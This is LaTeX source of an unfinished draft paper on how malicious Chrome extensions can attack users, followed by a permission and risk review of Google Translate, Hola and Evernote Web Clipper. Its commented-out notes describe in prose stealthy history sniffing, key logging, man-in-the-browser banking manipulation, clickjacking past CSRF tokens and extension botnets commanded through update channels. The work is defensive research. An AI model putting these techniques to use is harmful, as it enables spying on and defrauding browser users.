	%	\textbf{Visited Web Sites} We can identify web pages the user visited with a single content script in any web page and no further permission. For that purpose we add a link element to the web pages DOM. We set the URL to the web page for which we want to know whether the user has already visited it. Most browser change the color of a link whose web page the user has visited. We can identify such web pages by creating a list of link elements hidden to the user and reading out their color. Of course we can implement this easier by reading out the browser's history. But to access the history we need the corresponding permission and would declare our intention. The method with the link elements would be the better choice if we want to be stealthy. But if we do not have a list against which we can test URLs, reading out the history would be the better choice. \\
	
	%	\textbf{Key Logger} A key logger is a piece of software that stores the keyboard and mouse input from the user. It is implemented with minimal effort using JavaScript by adding an event to the DOM's root element. This event is triggered if the user presses a button or moves the mouse and can then store this information. \\
	
	%	\textbf{Man-in-the-browser} \cite{Curran:2012:MBA:2433195.2433198} The Man-in-the-browser (MITB) is a browser based attack related to man-in-the-middle attack (MITM). The MITM is attack scenario in computer cryptography against the communication between two parties who directly communicate with each other. The attacker secretly either intercepts and possibly alters the traffic or he impersonates one party and deceives the other party who still thinks he communicates with the impersonated party. MITM has to bypass security layers such as encryption or mutual authentication to gain access to the communication channel. The attack uses either vulnerabilities in obsolete cryptography algorithm or exploits in buggy implemented soft or hardware. An MITB attack is located inside the browser from where it intercepts in and outgoing web requests. The attack will be successful irrespective of security mechanisms because it takes place before any encryption or authentication is applied. An MITB often comes in the form of a Trojan Horse that infects the browser with its code. An extension can be used because i %TODO \\
	%	simple realization in extensions because an extension can intercept all in- and outgoing web requests, e.g. the webRequest module,   
	%	example attack banking: user logs into banking portal, sends data for transaction, extension reads outgoing request, changes target account and the transfer amount, banking server can not recognize manipulated request, sends back receipt, extension reads ingoing web request, changes manipulated data back to original data, modern bank systems use more secure authentication methods, for example TAN generator calculates TAN from target account number and data stored on user's banking card
	%	a related and simpler attack than the MITB is the boy-in-the-browser attack, it changes the proxy of the browser to perform a MITM attack, deletes itself after finishing, extension can also route all outgoing traffic over a malicious proxy 
	
	%	\textbf{User Interface redress attack (Clickjacking)} \cite{paulstone_clickjacking} "hijack" user mouse input to perform cross domain attacks, load a malicious web page inside an iframe and make every element invisible except the target clickable element or make the whole iframe transparent, now put it at the top most layer in the DOM, if the user now executes mouse input it is directed to the invisible or transparent iframe without him noticing, the executed input can be navigated by positioning the target element inside the iframe either over areas on the displayed page where the user is likely to interact with or directly under the cursor, mostly target social media such as faceboke's like button, using drag and drop it is possible to run Cross-Site-Request-Forgery (csrf) attacks where a HTML form is send from a cross-origin, to prevent this a token is used that is invisibly embedded inside the form, the token is created when the form is build on the server and compared when the form is send back to the server, clickjacking can bypass this security mechanism by loading the form inside the invisible iframe and letting the user fill it with drag and drop, if the user triggers a drop event it is navigated to the invisible form input field and the attacker can manipulate the dropped content, finally a click is hijacked to submit the form, in reverse can this mechanism be used to bypass the same origin policy, if the user starts the drag he drags elements from the invisible iframe to which the displayed web page has no access due to the same origin policy, if it is now dropped on the displayed web page it can be accessed,
	
	%	\textbf{Botnet} a botnet is a network consisting of multiple compromised clients, those can be controlled to execute large scaled Internet attacks such as Distributed Denial of Service (DDoS) or spamming, DDoS is a web based attack targeted to make an web service unavailable by overwhelming it with traffic, a botnet can be used to call the web service from different sources multiple times per second, the attack can either target the network and flood its bandwidth or the application itself using up all the computer's resources, the web service will be unavailable for the general public \cite{liu2011botnet}
	%	Browser extension can be used as bot's. They are hosted on many different computers and can execute web requests. A message channel is needed to command the bots to execute some task. One possible way is to let the extension fetch its command from a server. But this method can be tracked down to the person controlling the botnet who of course wants to remain unknown. A more stealthy way is to use an extension's automatically update service. The command can be added for example as a text file which will be parsed by the extension if a new update was installed. The extension can not only launch DDoS attacks but can also be used to spam emails. Therefor the extension can use the user's email account. If the user logs into his account the extension can either use send E-Mails itself over the 
	
	\subsection{Summary}
	
	We have shown that we can use an extension to perform and support attacks to harm the current user's privacy. Additionally, we provided ways to propagate collected information either to remote servers or to the currently visited web page. The following table summarizes our implemented attacks and lists what permissions an extension needs to execute the attack.
	
	\begin{table}[h]
		\centering
		\begin{tabular}{|l|l|} \hline
			\textbf{Attack} & \textbf{Needed Permissions} \\ \hline
			Send information to any host & Content Script \textbf{or} \texttt{"http://*/*", "https://*/*"} \textbf{or} \texttt{<all\_urls>} \\
			Exchange messages with the current web page & Content Script \\
			Steal information from the current web page & Content Script \\
			Steal user credentials & Content Script \\
			Web beacon & Content Script \\
			History Sniffing & Content Script \textbf{or} \texttt{"history"} \\ \hline
		\end{tabular}
		\caption{Summary of attacks and needed permission}
		\label{Summary of attacks and needed permission}
	\end{table}
%% !TeX spellcheck = en_US

\section{Extension Analysis}

We analyzed popular Chrome extensions focusing on what of our previously described attacks can be launched with the extensions current permissions and content declarations. The Google Chrome Web Store does not provide the functionality to sort extension based on users. Furthermore, the shown number of users is cut if it is higher than 10,000,000. Therefore, we had to search manually through the web store and select extensions for evaluation ourself. In this section we present the results of our extension analysis. 

\begin{table}
	\centering
	\begin{tabular}{|l|l|l|} \hline
		\textbf{Extension} & \textbf{Version} & \textbf{Users} \\ \hline
		Google Translate & 2.0.6 & 6,049,594 \\ 
		Unlimited Free VPN - Hola & 1.11.973 & 8,419,372 \\ \hline
	\end{tabular}
	\caption{Summary of analyzed extension}
\end{table}


\subsection{Google Translate}
Adds a context menu entry for the web page to translate highlighted text. Opens the Google translation page in a new tab with the selected text and its translation. Adds an pop-up to translate text inside a text field or the whole page. \\

\begin{table}[h]
	\centering
	\begin{tabular}{|l|l|l|} \hline
		\textbf{Content} & \textbf{Permissions} & \textbf{CSP} \\ \hline
		non-persistent background page & activeTab & unsafe eval\\
		content script \url{<all_urls>} & contextMenus & inline scripts from \url{https://translate.googleapis.com} \\
		& storage & \\ \hline
	\end{tabular}
	\caption{Google Translate - Extension's content and permissions}
\end{table}

\begin{listing}
	\begin{itemize}
		\item  Read and change all your data on the websites you visit
	\end{itemize}
	\caption{Google Translate - Warnings shown on installation}
\end{listing}

\begin{listing}
	\begin{itemize}
		\item Steal user data from every web page
		\item Store an persistent identifier
		\item Execute any remote loaded script
	\end{itemize}
	\caption{Google Translate - Possible attacks}
\end{listing}

The extension uses the combination of a non-persistent background page and the \texttt{activeTab} permission to inject a content script if the user clicks the extension's context menu entry. However, the extension still injects the same content script in every web page making the activeTab functionality useless. The content script and the JavaScript for the pop-up are compressed. Therefore, we could not provide accurate statements about the code's capabilities. We found the function \texttt{eval} used in a way to parse a JSON string to a JavaScript object: \texttt{eval("("+a+")")}. The compressed code restricted us to further investigate where the string parameter of the eval function originates, but we assume it is most likely loaded from a remote host. \\ %TODO remove

\textbf{Proposals} To improve the security of the extension itself and its users we propose to remove the unnecessary automatic injection of the content script. The use of the activeTab permission increases the security for the user, because the extension is only active when the user invokes it. Furthermore, we propose to remove the eval function because it is a common source of Cross-Site-Scripting attacks. The parameter given to eval may either be a simple JSON object or a whole JavaScript as a string. Due to the compressed state of the code, we were not able to figure out which case applies. If only JSON objects are used, we propose the use of \texttt{JSON.parse()} as an alternative without the danger of possible Cross-Site-Scripting attacks. If the other case applies, the developers should consider if it is necessary for the extension's purpose to load remote scripts. If the loaded scripts are static, they should be placed inside the extension's installation bundle. \\ %TODO kick improve sec of exte

\subsection{Unlimited Free VPN - Hola}
Hola provides a Virtual Private Network (VPN) as a free of charge extension. It routes the user's traffic through different countries to mask his true location. This allows to bypass regional restrictions on websites. A typical VPN network secures the web requests of its user's by routing the traffic to a few endpoints, masking the web request's origin. But Hola uses the devices of its unpaid customers to route traffic. It turns the user's computer into a VPN server and simultaneously to a VPN endpoint which means that the traffic of other users may exit through his Internet connection and take on his IP address. A Hola user's IP is therefore regularly exposed to the open Internet by traffic from other user's. The user himself has no possibility to control what content is loaded with his IP address as origin. The company makes money by providing the network to paying customers. Those are able to route their own traffic over the network to targeted endpoints. \\

The paid functionality of Hola has strong similarities with a bot net which is used for denial of service or spmaming attacks. Actually, Hola recently received negative publicity as the owner of the web platform \textit{8chan} claimed that an attacker used the Hola network to perform a DDoS attack against his platform \cite{8chanHola}. Thereupon, researchers from the cyber security company \textit{Vectra}\footnote{Vectra Homepage: \url{http://www.vectranetworks.com/}} analyzed Hola's application and network. They discovered that Hola has - in addition to the public botnet-like functionality of routing huge amounts of targeted traffic - several features which may be used to perform further cyber attacks, such as download and execute any file while bypassing anti virus checking \cite{vectraHola}. \\ 

\begin{table}[h]
	\centering
	\begin{tabular}{|l|l|l|} \hline
		\textbf{Content} & \textbf{Permissions} & \textbf{CSP} \\ \hline
		persistent background page & cookies & unsafe eval\\
		content script  \url{<all_urls>} & storage & inline scripts from 15 different URLs \\
		content script \url{*://*.hola.org/*} & tabs & \\ 
		& webNavigation & \\ 
		& webRequest & \\ 
		& webRequestBlocking & \\ 
		& \url{<all_urls>} & \\ \hline
	\end{tabular}
	\caption{Unlimited Free VPN - Hola - Extension's content and permissions}
\end{table}

\begin{listing}
	\begin{itemize}
		\item  Read and change all your data on the websites you visit
	\end{itemize}
	\caption{Unlimited Free VPN - Hola - Warnings shown on installation}
\end{listing}

Has to be active all the time => persistent background page. Needs to intercept web requests => webRequest API. 
To many script sources.

\subsection{Evernote Web Clipper}

\begin{table}[h]
	\centering
	\begin{tabular}{|l|l|l|} \hline
		\textbf{Content} & \textbf{Permissions} & \textbf{CSP} \\ \hline
		persistent background page & activeTab & inline scripts from  \\
		32 content scripts  \url{*://*/*} & contextMenus & \hspace{1em} \url{https://ssl.google-analytics.com} \\
		2 content scripts \url{*://*.salesforce.com/*} & cookies & \\ 
		content script \url{*://*.wsj.com/*} & notifications & \\ 
		& tabs & \\ 
		& unlimitedStorage & \\ 
		& \url{<all_urls>} & \\ 
		& \url{chrome://favicon/*} & \\ 
		& \url{http://*/*} & \\ 
		& \url{https://*/*} & \\ \hline
	\end{tabular}
	\caption{Evernote Web Clipper - Extension's content and permissions}
\end{table}

\begin{listing}
	\begin{itemize}
		\item  Read and change all your data on the websites you visit
	\end{itemize}
	\caption{Evernote Web Clipper - Warnings shown on installation}
\end{listing}



	\appendix
	\bibliographystyle{abbrv}
	\bibliography{references}
	
\end{document}